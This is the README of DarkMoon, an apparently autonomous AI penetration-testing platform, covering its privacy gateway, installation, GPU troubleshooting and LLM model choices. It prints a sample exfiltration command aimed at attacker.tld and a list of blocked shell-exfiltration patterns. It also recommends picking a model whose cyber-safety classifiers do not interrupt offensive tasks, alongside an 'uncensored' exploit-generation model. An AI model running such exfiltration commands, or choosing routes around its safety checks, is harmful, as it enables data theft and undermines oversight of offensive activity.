



<center>


A platform that allows you to conduct a complete penetration testing campaign

</center>

> [!WARNING]
> **Reading your results — analyst validation recommended.**
> DarkMoon runs **autonomous, AI-driven** assessments tuned for **maximum coverage**, so nothing slips through. As with any security scanner, this wide net means a share of findings are **candidates that deserve a human check** before action — severity and exploitability are best confirmed by an analyst.
>
> Every finding carries its **full evidence** — raw requests & responses, payloads and logs — across the **report, the dashboard and the PDF export**. Triage findings against that evidence before remediation: the **`EXPLOITED`** status marks findings backed by a reproducible proof of exploitation, while **`Confirmed`** findings benefit from a quick analyst review. That step turns broad automated coverage into **reliable, defensible conclusions**.

# Summary

- [I. Preview](#i-preview)
- [II. Installation](#ii-installation)
  - [II.1. Prerequisites](#ii1-prerequisites)
  - [II.2. General project structure](#ii2-general-project-structure)
  - [II.3. Configuration of environment variables in docker compose](#ii3-configuration-of-environment-variables-in-docker-compose)
    - [II.3.a Example environment variable](#ii3a-example-environment-variable)
    - [II.3.b Role of the variables](#ii3b-role-of-the-variables)
    - [II.3.d Compatible Models & Hardware](#ii3d-compatible-models--hardware)
  - [II.4. Automatic generation of OpenCode files](#ii4-automatic-generation-of-opencode-files)
  - [II.5. Volumes and persistence](#ii5-volumes-and-persistence)
    - [II.5.a Important volumes](#ii5a-important-volumes)
    - [II.5.b What this allows](#ii5b-what-this-allows)
  - [II.6. Build and launch Darkmoon](#ii6-build-and-launch-darkmoon)
    - [II.6.a Building the images](#ii6a-building-the-images)
    - [II.6.b Launching the stack](#ii6b-launching-the-stack)
  - [II.7. Launch Darkmoon (User CLI)](#ii7-launch-darkmoon-user-cli)
    - [II.7.a Make the wrapper executable](#ii7a-make-the-wrapper-executable)
    - [II.7.b Install globally (optional)](#ii7b-install-globally-optional)
    - [II.7.c Launch Darkmoon with TUI Console](#ii7c-launch-darkmoon-with-tui-console)
    - [II.7.d View logs](#ii7d-view-logs)
  - [II.8. Direct access to the container (debug)](#ii8-direct-access-to-the-container-debug)
  - [II.9. Where to modify what (summary)](#ii9-where-to-modify-what-summary)
  - [II.10. Quick summary](#ii10-quick-summary)
  - [II.11. Clipboard & Terminal (OSC 52)](#ii11-clipboard--terminal-osc-52)
- [III. Uses](#iii-uses)
  - [III.1. Prompt Examples](#iii1-prompt-examples)
- [IV. Architecture](#iv-architecture)
  - [IV.1. Core Idea](#iv1-core-idea)
  - [IV.2. Main Components (Who Does What)](#iv2-main-components-who-does-what)
    - [IV.2.a. OpenCode — The Brain](#iv2a-opencode--the-brain)
    - [IV.2.b. AI Agents — The Strategy Layer](#iv2b-ai-agents--the-strategy-layer)
    - [IV.2.c. MCP Darkmoon — The Security Gatekeeper](#iv2c-mcp-darkmoon--the-security-gatekeeper)
    - [IV.2.d. Darkmoon Toolbox — The Real Tools](#iv2d-darkmoon-toolbox--the-real-tools)
    - [IV.2.e. Docker \& Volumes — Isolation and Persistence](#iv2e-docker--volumes--isolation-and-persistence)
  - [IV.3. Execution Flow (Simple Overview)](#iv3-execution-flow-simple-overview)
    - [IV.3.a Deployment diagram](#iv3a-deployment-diagram)
    - [IV.3.b Network flow diagram](#iv3b-network-flow-diagram)
    - [IV.3.c Activity diagram — End-to-end penetration testing](#iv3c-activity-diagram--end-to-end-penetration-testing)
  - [IV.4. Security by Design](#iv4-security-by-design)
  - [IV.5. Why This Architecture Is Robust](#iv5-why-this-architecture-is-robust)
- [V. AI Agents](#v-ai-agents)
  - [V.1. What is a Darkmoon Agent?](#v1-what-is-a-darkmoon-agent)
  - [V.2. Agent Philosophy](#v2-agent-philosophy)
  - [V.3. Structure of a Darkmoon Agent](#v3-structure-of-a-darkmoon-agent)
    - [V.3.a Simplified Example](#v3a-simplified-example)
    - [V.3.b List of Agents](#v3b-list-of-agents)
    - [V.3.c Common Sections](#v3c-common-sections)
  - [V.4. Real Example: pentest-web](#v4-real-example-pentest-web)
  - [V.5. Critical Rules for Agents](#v5-critical-rules-for-agents)
    - [V.5.a Autonomy](#v5a-autonomy)
    - [V.5.b MCP-only](#v5b-mcp-only)
    - [V.5.c Communication](#v5c-communication)
  - [V.6. Where Agents Live](#v6-where-agents-live)
    - [V.6.a Before Build](#v6a-before-build)
    - [V.6.b After Build (Recommended)](#v6b-after-build-recommended)
  - [V.7. Agent Lifecycle](#v7-agent-lifecycle)
  - [V.8. Adding a New Agent](#v8-adding-a-new-agent)
    - [V.8.a. Method 1 — After Build (Recommended)](#v8a-method-1--after-build-recommended)
    - [V.8.b. Method 2 — Before Build](#v8b-method-2--before-build)
  - [V.9. Best Practices](#v9-best-practices)
  - [V.10. Summary](#v10-summary)
- [VI. Toolbox](#vi-toolbox)
  - [VI.1. What is this project for?](#vi1-what-is-this-project-for)
  - [VI.2. General principle (simple idea)](#vi2-general-principle-simple-idea)
    - [VI.2.a Step 1: Builder](#vi2a-step-1-builder)
    - [VI.2.b Step 2: Runtime](#vi2b-step-2-runtime)
  - [VI.3. Why this architecture is smart](#vi3-why-this-architecture-is-smart)
    - [VI.3.a Clear separation of roles](#vi3a-clear-separation-of-roles)
    - [VI.3.b Standardized output](#vi3b-standardized-output)
    - [VI.3.c Important optimizations](#vi3c-important-optimizations)
  - [VI.4. What does the image contain?](#vi4-what-does-the-image-contain)
    - [VI.4.a Base system](#vi4a-base-system)
    - [VI.4.b Included languages](#vi4b-included-languages)
    - [VI.4.c Wordlists](#vi4c-wordlists)
    - [VI.4.d Installed tools (examples)](#vi4d-installed-tools-examples)
  - [VI.5. How to use the image](#vi5-how-to-use-the-image)
    - [VI.5.a Build the image](#vi5a-build-the-image)
    - [VI.5.b Start a shell](#vi5b-start-a-shell)
    - [VI.5.c Use a tool](#vi5c-use-a-tool)
  - [VI.5bis. Execution safety and GPU acceleration](#vi5bis-execution-safety-and-gpu-acceleration)
    - [VI.5bis.a Why a command can no longer freeze a campaign](#vi5bisa-why-a-command-can-no-longer-freeze-a-campaign)
    - [VI.5bis.b GPU acceleration](#vi5bisb-gpu-acceleration)
    - [VI.5bis.c Where reports are written](#vi5bisc-where-reports-are-written)
  - [VI.6. How to add a new tool (for the community)](#vi6-how-to-add-a-new-tool-for-the-community)
    - [VI.6.a Choose the right place](#vi6a-choose-the-right-place)
    - [VI.6.b Rules to follow](#vi6b-rules-to-follow)
    - [VI.6.c Simple example (Go tool)](#vi6c-simple-example-go-tool)
  - [VI.7. How to maintain the project](#vi7-how-to-maintain-the-project)
    - [VI.7.a In case of an error:](#vi7a-in-case-of-an-error)
    - [VI.7.b Best practices:](#vi7b-best-practices)
  - [VI.8. For the Open Source community](#vi8-for-the-open-source-community)
  - [VI.9. Very short summary](#vi9-very-short-summary)
  - [VI.10. Toolbox list:](#vi10-toolbox-list)
    - [VI.10.a Tools installed in the `darkmoon` runtime image](#vi10a-tools-installed-in-the-darkmoon-runtime-image)
    - [VI.10.b “tools” installed by `pip install impacket==0.12.0` (scripts provided by Impacket)](#vi10b-tools-installed-by-pip-install-impacket0120-scripts-provided-by-impacket)
  - [VI.11 BONUS: Pentester lab to train DarkMoon](#vi11-bonus-pentester-lab-to-train-darkmoon)
    - [VI.11.a WEB / API / GRAPHQL / FRONTEND](#vi11a-web--api--graphql--frontend)
    - [VI.11.b ACTIVE DIRECTORY / WINDOWS](#vi11b-active-directory--windows)
    - [VI.11.c NETWORK / INFRASTRUCTURE](#vi11c-network--infrastructure)
    - [VI.11.d CLOUD (AWS / AZURE / GCP / OVH)](#vi11d-cloud-aws--azure--gcp--ovh)
    - [VI.11.e IOT / EMBEDDED / SCADA / ICS](#vi11e-iot--embedded--scada--ics)
    - [VI.11.f MULTI-INFRA ORCHESTRATION (RARE \& CRITICAL)](#vi11f-multi-infra-orchestration-rare--critical)
- [VII. MCP Workflows](#vii-mcp-workflows)
  - [VII.1. What is an MCP Workflow?](#vii1-what-is-an-mcp-workflow)
  - [VII.2. Where Workflows Live](#vii2-where-workflows-live)
  - [VII.3. Dynamic Discovery](#vii3-dynamic-discovery)
  - [VII.4. Workflow Structure](#vii4-workflow-structure)
  - [VII.5. Example: Vulnerability Scan](#vii5-example-vulnerability-scan)
  - [VII.6. Called by an Agent](#vii6-called-by-an-agent)
  - [VII.7. Advantages of Workflows](#vii7-advantages-of-workflows)
  - [VII.8. Creating a New Workflow](#vii8-creating-a-new-workflow)
  - [VII.9. Best Practices](#vii9-best-practices)
  - [VII.10. Summary](#vii10-summary)
- [VIII. Contributing](#viii-contributing)
- [IX. License](#ix-license)

# I. Preview

<div>
  <a href="https://youtu.be/1bFRVuMkZzY?si=peKxwuxzbXBnb2zO">
    
  </a>

  <p><strong>Watch DarkMoon in action — Full autonomous penetration test demo</strong></p>
</div>


Here's an example of penetration testing of a [GOAD Active Directory Lab](https://github.com/Orange-Cyberdefense/GOAD)

[Back to Summary](#summary)

## I.a Privacy gateway — reversible local tokenization

Since **v1.2.0**, Darkmoon puts a privacy gateway between the LLM and execution (`mcp/src/privacy/`). The model **never sees your real sensitive values** — IP addresses, hostnames, domains, URLs, emails, usernames, credentials or internal paths. It only ever handles **deterministic placeholders**:

```
IP_PRIVATE_001   HOST_INTERNAL_001   DOMAIN_001   EMAIL_001   URL_001   PATH_001
```

Real values are injected **locally, right before a tool runs**, and re-masked out of every result before it goes back to the model. So nothing sensitive ever leaves your perimeter to the LLM provider — you get Claude's reasoning under strict data-sovereignty constraints.

```
Model sees:    Host IP_PRIVATE_001 has ports 80,443 open
Model emits:   nmap -sV IP_PRIVATE_001 -p 80,443
Runs locally:  nmap -sV 10.42.1.5 -p 80,443
Blocked:       curl https://attacker.tld/?target=IP_PRIVATE_001   (exfiltration)
```

**How it works.** A per-session `PrivacyVault` keeps the reversible map: it is deterministic (the same value always yields the same placeholder in a session) and holds real values only as encrypted ciphertext (de-duplicated by HMAC), never in cleartext, with a TTL. A `CommandGateway` rehydrates placeholders **context-aware — never a blind global replace** — and blocks exfiltration shapes: a placeholder in a URL query/fragment, a literal external host, `echo`/`print`, an outbound request body, `/dev/tcp`, or `nc`/`telnet` to a non-target. It understands `bash -c` wrappers and structured tool calls (only whitelisted fields are rehydrated). Credentials are never restored into an executed command.

**Configuration.** On by default; disable with `DARKMOON_PRIVACY=0`. Tune the tokenized categories with `DARKMOON_PRIVACY_CATEGORIES` (comma-separated, conservative default: IPs, internal hosts, emails). The core is open-source; the Pro edition adds guard-sealed vault storage, an audit trail of rehydrations and a compliance-grade *no-data-left-the-perimeter* statement in the signed report.

[Back to Summary](#summary)

# II. Installation

## II.1. Prerequisites

Before starting, you must have:

- Docker
- Docker Compose
- Access to an LLM provider (OpenRouter, Anthropic, OpenAI…)

## II.1.a General project structure

Darkmoon relies on **Docker** and **Docker Compose**.

The important components are :

- an **OpenCode** container (AI + agents),
- a **Darkmoon Toolbox** container (pentest tools),
- **shared volumes** for configuration.

---


## II.2. 📘 Darkmoon – GPU Troubleshooting Guide (Official)

### 🔧 GPU Troubleshooting (NVIDIA / AMD / Docker / WSL)

### Overview

Darkmoon supports GPU acceleration when available, but **GPU configuration depends entirely on your host environment**.

There are three major supported setups:

| Environment | GPU Vendor | Setup Method |
|------------|-----------|----------------|
| Native Linux (Debian/Ubuntu) | NVIDIA | NVIDIA driver + NVIDIA Container Toolkit |
| Native Linux (Debian/Ubuntu) | AMD / ATI | ROCm + `amdgpu` driver |
| Windows + Docker Desktop + WSL2 | NVIDIA | Windows driver + Docker Desktop GPU integration |

> **No GPU?** Darkmoon falls back to CPU via `pocl-opencl-icd` automatically — no configuration needed.

Darkmoon **does not install GPU dependencies automatically** to avoid breaking system configurations.


### 🚨 Common Error

```bash
Error: could not select device driver "nvidia" with capabilities: [[gpu]]
````

or

```bash
Failed to initialize NVML: GPU access blocked by the operating system
```


### 🧠 Step 1 — Identify Your Environment

Run:

```bash
uname -a
```

#### If you see:

* `microsoft` → you are in **WSL**
* otherwise → **native Linux**

### 🖥️ Case 1 — Windows + Docker Desktop + WSL2

#### ✅ Important

In this setup:

* ❌ DO NOT install `nvidia-container-toolkit` inside WSL
* ❌ DO NOT configure `nvidia-ctk`
* ✔ Docker Desktop handles GPU automatically

#### 🔍 Check GPU availability

##### 1. On Windows (PowerShell)

```powershell
nvidia-smi
```

##### 2. Inside WSL

```bash
/usr/lib/wsl/lib/nvidia-smi
```

---

#### 🧪 Test Docker GPU

```bash
docker run --rm --gpus all nvidia/cuda:12.3.2-base-ubuntu22.04 nvidia-smi
```

##### 🔥 If GPU is blocked

If you see:

```text
GPU access blocked by the operating system
```

##### Fix:

```powershell
wsl --update
wsl --shutdown
```

👉 Then **restart Windows completely**

#### ⚙️ Docker Desktop settings

Check:

* Settings → General → ✅ *Use WSL2 backend*
* Settings → Resources → WSL Integration → ✅ your distro enabled


### 🐧 Case 2 — Native Linux (Debian / Ubuntu)

#### 🔍 Check GPU

```bash
nvidia-smi
```

#### 🧪 Test Docker GPU

```bash
docker run --rm --gpus all nvidia/cuda:12.3.2-base-ubuntu22.04 nvidia-smi
```

#### ❌ If it fails → install NVIDIA Container Toolkit

##### ⚠️ Known issue (IMPORTANT)

You may encounter:

```text
E: Type '<!doctype' is not known on line 1 in source list
```

👉 This means your NVIDIA repo file is **corrupted with HTML instead of APT entries**

This is a known issue:
[https://forums.developer.nvidia.com/t/corrupted-nvidia-container-toolkit-list/350645/2](https://forums.developer.nvidia.com/t/corrupted-nvidia-container-toolkit-list/350645/2)


#### ✅ Fix corrupted NVIDIA repo

```bash
sudo rm -f /etc/apt/sources.list.d/nvidia-container-toolkit.list
```

#### ✅ Correct installation (official method)

```bash
curl -fsSL https://nvidia.github.io/libnvidia-container/gpgkey \
| sudo gpg --dearmor -o /usr/share/keyrings/nvidia-container-toolkit-keyring.gpg

curl -s -L https://nvidia.github.io/libnvidia-container/stable/deb/nvidia-container-toolkit.list \
| sed 's#deb https://#deb [signed-by=/usr/share/keyrings/nvidia-container-toolkit-keyring.gpg] https://#g' \
| sudo tee /etc/apt/sources.list.d/nvidia-container-toolkit.list

sudo apt update
sudo apt install -y nvidia-container-toolkit
sudo nvidia-ctk runtime configure --runtime=docker
sudo systemctl restart docker
```

#### 🧪 Validate installation

```bash
docker run --rm --gpus all nvidia/cuda:12.3.2-base-ubuntu22.04 nvidia-smi
```

### 🔴 Case 3 — AMD / ATI GPU (Native Linux)

AMD GPUs are supported via **ROCm** (Radeon Open Compute). This is an alternative to NVIDIA's CUDA stack.

> Darkmoon's container image is built on `nvidia/cuda` but includes `ocl-icd-libopencl1` and `pocl-opencl-icd` for CPU fallback. AMD GPU passthrough requires ROCm on the **host**.

#### 🔍 Check AMD GPU availability

```bash
lspci | grep -i amd
rocm-smi   # if ROCm is installed
```

#### ✅ Install ROCm (Ubuntu 22.04)

```bash
# Add ROCm repo
wget -q -O - https://repo.radeon.com/rocm/rocm.gpg.key | sudo apt-key add -
echo 'deb [arch=amd64] https://repo.radeon.com/rocm/apt/5.7 jammy main' \
  | sudo tee /etc/apt/sources.list.d/rocm.list

sudo apt update
sudo apt install -y rocm-hip-sdk rocm-opencl-runtime

# Add your user to the render & video groups
sudo usermod -aG render,video $USER
```

#### ✅ Docker GPU passthrough (AMD)

AMD GPUs use the `/dev/kfd` and `/dev/dri` devices instead of NVIDIA's driver interface.

Add to your `docker-compose.yml` under the `darkmoon` service:

```yaml
devices:
  - /dev/kfd:/dev/kfd
  - /dev/dri:/dev/dri
group_add:
  - video
  - render
```

#### 🧪 Test AMD GPU in Docker

```bash
docker run --rm \
  --device=/dev/kfd --device=/dev/dri \
  --group-add video --group-add render \
  rocm/rocm-terminal rocm-smi
```

#### ❌ Common AMD issues

| Error | Cause | Fix |
|-------|-------|-----|
| `/dev/kfd: Permission denied` | User not in `render` group | `sudo usermod -aG render,video $USER` + logout |
| `No OpenCL platforms found` | ROCm not installed | Install `rocm-opencl-runtime` |
| Container can't see GPU | Missing device mounts | Add `--device=/dev/kfd --device=/dev/dri` |

> **WSL2 + AMD**: AMD GPU passthrough in WSL2 is **not officially supported** by Microsoft at this time. Use native Linux or a VM for AMD GPU workloads.

---

### 🧠 Final Notes

* Darkmoon runs perfectly **without GPU** (CPU fallback via `pocl-opencl-icd`)
* GPU is **optional acceleration**, not required
* NVIDIA: use CUDA stack + `nvidia-container-toolkit`
* AMD: use ROCm + device mounts (`/dev/kfd`, `/dev/dri`)
* WSL GPU issues are often **OS-level, not Docker-level**
* Native Linux GPU issues are usually **driver or toolkit misconfiguration**


### 🚀 Quick Debug Checklist

| Check            | Command                            |
| ---------------- | ---------------------------------- |
| NVIDIA (Windows) | `nvidia-smi`                       |
| NVIDIA (WSL)     | `/usr/lib/wsl/lib/nvidia-smi`      |
| NVIDIA (Docker)  | `docker run --gpus all ...`        |
| AMD (Linux)      | `rocm-smi`                         |
| AMD (Docker)     | `docker run --device=/dev/kfd ...` |
| CPU fallback     | `clinfo` (shows pocl platform)     |
| WSL reset        | `wsl --shutdown`                   |
| NVIDIA repo fix  | remove corrupted `.list`           |

### 💬 Summary

Darkmoon does not modify your system GPU stack automatically.

Instead, it:

* detects Docker
* builds and runs the stack
* lets you configure GPU safely according to your environment (NVIDIA, AMD, or CPU)

This ensures **maximum stability across Linux, WSL, and Docker Desktop environments**.

[Back to Summary](#summary)

## II.3. Configuration of environment variables

LLM provider configuration is no longer done in `docker-compose.yml`. It is now handled interactively by `install.sh`, which generates a `.opencode.env` file at the root of the project. This file is automatically loaded by Docker Compose at startup.

[Back to Summary](#summary)

### II.3.a Interactive configuration via install.sh

On first run (or with `--init`), `install.sh` prompts you to choose between a **cloud provider**, a **local model**, or an **on-prem Anthropic-compatible endpoint**:

```bash
./install.sh           # skip form if .opencode.env already configured
./install.sh --init    # force reconfiguration
./install.sh --help    # show usage
```

**Cloud provider example:**

```
[1] Cloud provider                (Anthropic, OpenRouter, OpenAI, etc.)
[2] Local model                   (Ollama, llama.cpp / llama-server)
[3] On-prem Anthropic-compatible  (custom ANTHROPIC_BASE_URL)

Your choice [1/2/3]: 1
Provider name (e.g. anthropic): anthropic
Model name    (e.g. claude-opus-4-7): claude-opus-4-7
API key: ****
```

**Local model example (llama.cpp):**

```
Your choice [1/2/3]: 2
Local engine [1/2/3]: 2
Base URL [http://localhost:8080/v1]: http://localhost:8001/v1
Model name (e.g. glm-4.6:32b): Qwen2.5-Coder-32B-Instruct-Q4_K_M.gguf
```

**On-prem Anthropic-compatible example:**

Use this when you host a model behind an endpoint that speaks the **Anthropic Messages API** (`/v1/messages`) at a custom URL — e.g. an internal Claude gateway or proxy. This differs from option `[2]`, which targets **OpenAI-compatible** endpoints (`/v1/chat/completions`).

```
Your choice [1/2/3]: 3
Base URL (e.g. https://llm.corp.tld/my-model/v1): https://llm.corp.tld/my-model/v1
Model name (e.g. claude-opus-4-6): claude-opus-4-6
API key (optional — leave empty if none): ****
```

> [!NOTE]
> The model name must be a **recognized Claude model id** (e.g. `claude-opus-4-6`) — opencode routes it through its native Anthropic provider, and your endpoint maps it to the actual served model (often via the base URL path). The API key is **optional**: leave it empty for keyless endpoints (a harmless placeholder is written so the Anthropic SDK stays happy).

[Back to Summary](#summary)

### II.3.b Generated .opencode.env file

**Cloud provider:**

```env
# Darkmoon — LLM cloud provider config
OPENROUTER_PROVIDER=anthropic
OPENCODE_MODEL=claude-opus-4-7
OPENROUTER_API_KEY=***REMOVED***
```

**Local model:**

```env
# Darkmoon — LLM local provider config
OPENCODE_LOCAL_MODE=true
OPENCODE_LOCAL_PROVIDER_ID=llama.cpp
OPENCODE_LOCAL_PROVIDER_NAME=llama-server (local)
OPENCODE_LOCAL_BASE_URL=http://localhost:8001/v1
OPENCODE_LOCAL_MODEL=Qwen2.5-Coder-32B-Instruct-Q4_K_M.gguf
# Optional — API key for authenticated OpenAI-compatible endpoints (Bearer auth).
# Such endpoints usually require /v1 in OPENCODE_LOCAL_BASE_URL above.
OPENCODE_LOCAL_API_KEY=sk-...
```

**On-prem Anthropic-compatible:**

```env
# Darkmoon — on-prem Anthropic-compatible LLM config
ANTHROPIC_BASE_URL=https://llm.corp.tld/my-model/v1
ANTHROPIC_MODEL=claude-opus-4-6
# Optional — leave the placeholder value for keyless endpoints.
ANTHROPIC_API_KEY=sk-...
```

[Back to Summary](#summary)

### II.3.c Role of the variables

**Cloud provider variables:**

| Variable              | Role                        |
| --------------------- | --------------------------- |
| `OPENROUTER_PROVIDER` | LLM provider name           |
| `OPENCODE_MODEL`      | Exact model used            |
| `OPENROUTER_API_KEY`  | Provider API key            |

**Local model variables:**

| Variable                      | Role                                      |
| ----------------------------- | ----------------------------------------- |
| `OPENCODE_LOCAL_MODE`         | Set to `true` to enable local mode        |
| `OPENCODE_LOCAL_PROVIDER_ID`  | Provider ID (`ollama`, `llama.cpp`, etc.) |
| `OPENCODE_LOCAL_PROVIDER_NAME`| Display name                              |
| `OPENCODE_LOCAL_BASE_URL`     | OpenAI-compatible endpoint URL            |
| `OPENCODE_LOCAL_MODEL`        | Model name served by the local server     |

**On-prem Anthropic-compatible variables:**

| Variable             | Role                                                            |
| -------------------- | --------------------------------------------------------------- |
| `ANTHROPIC_BASE_URL` | Custom endpoint speaking the Anthropic Messages API (`/v1/messages`) |
| `ANTHROPIC_MODEL`    | Recognized Claude model id, mapped to the served model by the endpoint |
| `ANTHROPIC_API_KEY`  | API key — optional (placeholder written for keyless endpoints)  |

> [!IMPORTANT]
> No secret is stored in the Docker image or in `docker-compose.yml`. All credentials are isolated in `.opencode.env` which is excluded from version control.

> [!NOTE]
> For local models, the local server (Ollama or llama.cpp) must be running and accessible **before** starting the Darkmoon stack. The local server must be on the same Docker network as the `opencode` container. See [network configuration](#) for details.

[Back to Summary](#summary)

### II.3.d Compatible Models & Hardware

Darkmoon is a **fully autonomous** pentest agent: a single campaign chains hundreds to thousands of tool calls, spawns sub-agents, and must drive the whole methodology (Discovery → Validation → Reporting → Finalization) to completion on its own. This places a hard requirement on the underlying LLM — it must be excellent at long-horizon reasoning and strict, repeated tool-calling.

> [!IMPORTANT]
> **Ideal conditions — Claude Opus 4.6 / 4.7.** Darkmoon is built and tuned around frontier models. **Claude Opus 4.7** (or 4.6) is the reference configuration and delivers the most complete scans, the deepest exploitation chains, and the most reliable reports. If you want Darkmoon to perform as designed, use Opus 4.6 / 4.7.

> [!IMPORTANT]
> **Anthropic cyber-safety restrictions — Claude Opus 4.6 is the most stable choice.** Recent Anthropic models ship security *classifiers* that can **interrupt, refuse, or silently downgrade** offensive-security tasks (reconnaissance, PoC, exploitation) **even on authorized engagements** with the scope/authorization in context. **Fable 5 / Mythos 5** silently fall back to a weaker model on cyber-flagged requests, and in our own testing **Opus 4.8 hit these limits mid-assessment**, whereas **Claude Opus 4.6 ran the full assessment end-to-end** — broad vulnerability coverage, no ethical interruptions, no fallback. **For Darkmoon, Claude Opus 4.6 is the recommended, most stable model.**
>
> Darkmoon is intended for **authorized** security testing only.
>
> **Optional but recommended (not required — Darkmoon works without it):** if you can, apply to Anthropic's **Cyber Verification Program (CVP)**. Once approved, dual-use cyber activities (e.g. vulnerability exploitation, offensive-security tooling) are **no longer blocked by default** for your approved **organization**, which further reduces false-positive interruptions on legitimate work. Note that the approval is **per-organization** (each org must apply separately), and **prohibited-use** activities (e.g. mass data exfiltration, ransomware development) remain blocked regardless of CVP status.

#### Why small models do not work

A 7B or 13B model (e.g. a generic `llama3`, a 7B coder, `gpt-oss-20b`) cannot hold the autonomous loop: it emits malformed tool calls, loses track over long sessions, and never reaches the final `finish_scan` / campaign-finalization step. The visible symptom is a campaign that stays in **`Unknown`** forever and a scan that never reaches *Finished*. **This is a model-capability limit, not a Darkmoon bug.**

#### Cloud models (recommended)

| Model               | Provider  | Status                                        |
| ------------------- | --------- | --------------------------------------------- |
| `claude-opus-4-7`   | Anthropic | **Reference — optimal**                       |
| `claude-opus-4-6`   | Anthropic | Recommended                                   |
| `claude-sonnet-4-6` | Anthropic | Good (faster / cheaper, slightly less depth)  |

#### ★ Local Opus-class equivalents (highlighted)

If you need an on-premise / air-gapped deployment but want results as close as possible to Claude Opus 4.6 / 4.7, use one of these **frontier-grade open-weight** models. They are large Mixture-of-Experts models that top the agentic and function-calling leaderboards (Berkeley Function Calling Leaderboard, SWE-Bench) in 2026 — the only open models that reliably drive Darkmoon's autonomous loop end-to-end.

| Model                                          | Size (total / active) | Why it qualifies                                                       | HuggingFace                                |
| ---------------------------------------------- | --------------------- | ---------------------------------------------------------------------- | ------------------------------------------ |
| **`DeepSeek-V3.2`** / `V4-Pro`                 | 671B MoE / 37B active | Near-frontier reasoning, native “thinking with tools” tool-calling     | `deepseek-ai/DeepSeek-V3.2`                |
| **`Kimi-K2-Thinking`** (K2.6)                  | 1T MoE / 32B active   | Best-in-class agentic intelligence, 256K context                       | `moonshotai/Kimi-K2-Thinking`              |
| **`GLM-4.6`** (GLM-4.7 / GLM-5 family)         | 357B MoE / 32B active | Strongest all-round open coding/agentic model, 200K context            | `zai-org/GLM-4.6`                          |
| **`Qwen3-Coder-480B-A35B-Instruct`**           | 480B MoE / 35B active | SOTA open agentic tool-use, comparable to Claude Sonnet 4, 256K–1M ctx | `Qwen/Qwen3-Coder-480B-A35B-Instruct`      |

> These flagship models are the **recommended local target if you want Opus-class behaviour**. At full precision they need a multi-GPU server, but quantized GGUF builds (2–4 bit) run on a high-end workstation with MoE offloading — see hardware below.

#### Local models — efficient single-workstation options

When a multi-GPU server is not available, these run on a single high-end GPU while still completing real campaigns (MoE designs keep only a few billion parameters active per token):

| Model                          | Size (total / active) | Notes                                                                   | HuggingFace                              |
| ------------------------------ | --------------------- | ----------------------------------------------------------------------- | ---------------------------------------- |
| `Qwen3-Coder-30B-A3B-Instruct` | 30B MoE / 3B active   | Best efficiency — fits a single 24 GB GPU, strong agentic tool-use      | `Qwen/Qwen3-Coder-30B-A3B-Instruct`      |
| `Qwen3-Coder-Next`             | MoE                   | Highest capability-per-active-parameter                                 | `Qwen/Qwen3-Coder-Next`                  |
| `Qwen2.5-Coder-32B-Instruct`   | 32B dense             | Dense fallback, excellent tool-calling                                  | `Qwen/Qwen2.5-Coder-32B-Instruct`        |

#### Security / pentest-specialised models

Models fine-tuned for offensive security write deeper exploit code and reason about CVEs more directly. They are best used *in addition* to a strong agentic driver — on their own the smaller ones still won't sustain a full autonomous campaign.

| Model                       | Focus                                                          | HuggingFace / source        |
| --------------------------- | -------------------------------------------------------------- | --------------------------- |
| `WhiteRabbitNeo` (Deep Hat) | Uncensored red/blue-team, exploit generation, CVE reasoning    | `WhiteRabbitNeo/*` · deephat.ai |

> [!WARNING]
> **Not supported for autonomous campaigns:** any small model (7B / 13B coders, `gpt-oss-20b`, generic `llama3`, Phi, Gemma 9B, the older WhiteRabbitNeo-13B, etc.). Fine for quick experiments, but they will not finish a real campaign — the scan stays in `Unknown`.

#### Recommended hardware (local inference)

The Opus-class models above are 355B–1T-parameter MoE. Figures assume the listed quantization and a single concurrent campaign; more VRAM / additional GPUs shorten run time and raise precision.

| Target                                                                                                  | VRAM                                          | System RAM   | Example hardware                                  |
| ------------------------------------------------------------------------------------------------------- | --------------------------------------------- | ------------ | ------------------------------------------------- |
